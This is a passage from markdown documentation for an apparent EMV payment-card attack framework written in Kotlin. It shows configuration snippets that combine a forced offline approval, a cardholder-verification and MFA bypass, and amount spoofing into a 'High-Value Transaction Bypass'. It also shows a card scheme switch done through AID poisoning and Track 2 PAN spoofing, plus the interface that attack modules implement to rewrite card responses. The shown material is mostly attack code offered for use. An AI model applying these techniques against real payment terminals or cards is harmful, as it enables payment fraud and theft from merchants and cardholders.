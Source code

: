 ```kotlin
                modifiedResponse = module.applyAttack(command, modifiedResponse, cardData)
            }
        }
        
        return modifiedResponse
    }
}
```

### Attack Combination Examples

#### High-Value Transaction Bypass
```kotlin
// Enable multiple attacks for high-value bypass
val attackConfig = mapOf(
    "advanced_force_offline" to mapOf("max_offline_amount" to 500000),
    "enhanced_cvm_bypass" to mapOf("bypass_mfa" to true),
    "amount_manipulation" to mapOf("spoofed_amount" to 1000)
)
```

#### Card Scheme Switching
```kotlin
// Switch card schemes during transaction
val schemeConfig = mapOf(
    "ppse_aid_poisoning" to mapOf("poison_type" to "visa_to_mastercard"),
    "track2_spoofing" to mapOf("spoof_pan" to "5555555555554444") // MC PAN
)
```

---

## Module Architecture 🏗️

### EmvAttackModule Interface

All attack modules implement this interface for consistent behavior:

```kotlin
interface EmvAttackModule {
    fun getAttackId(): String
    fun getDescription(): String
    fun isApplicable(command: ByteArray, cardData: Map<String, Any>): Boolean
    fun applyAttack(command: ByteArray, response: ByteArray, cardData: Map<String, Any>): ByteArray
    fun getAttackStatus(): Map<String, Any>
}
```

### Card Data Structure

Card data loaded from JSON or real test cards:
